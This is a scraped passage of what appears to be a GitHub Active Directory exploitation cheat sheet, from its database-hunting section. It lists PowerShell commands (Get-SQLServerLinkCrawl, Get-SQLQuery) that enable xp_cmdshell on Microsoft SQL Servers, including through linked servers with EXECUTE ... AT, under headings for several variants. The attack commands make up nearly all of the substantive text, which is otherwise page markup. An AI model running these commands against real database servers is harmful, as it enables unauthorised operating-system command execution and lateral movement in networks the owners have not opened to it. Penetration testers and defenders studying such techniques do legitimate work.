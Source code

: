 Get-SQLServerLinkCrawl  -Instance db-mssql -Query "sp_configure 'show advanced options', '1'"Get-SQLServerLinkCrawl  -Instance db-mssql -Query "RECONFIGURE"Get-SQLServerLinkCrawl  -Instance db-mssql -Query "sp_configure 'xp_cmdshell', '1'"Get-SQLServerLinkCrawl  -Instance db-mssql -Query "RECONFIGURE"

#### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='324'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1231' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/K%20-%20Database%20Hunting/README.md#xp_cmdshell-v2)Xp_cmdshell v2

Get-SQLQuery  -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "msqlsrv.domain.local"'

#### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='325'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1242' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/K%20-%20Database%20Hunting/README.md#xp_cmdshell-v3)Xp_cmdshell v3

Get-SQLServerLinkCrawl  -Instance DOMAIN\SQLEXPRESS 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "msqlsrv.domain.local"'

#### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='326'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1253' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/K%20-%20Database%20Hunting/README.md#osql-xp_cmdshell)OSQL Xp_cmdshell
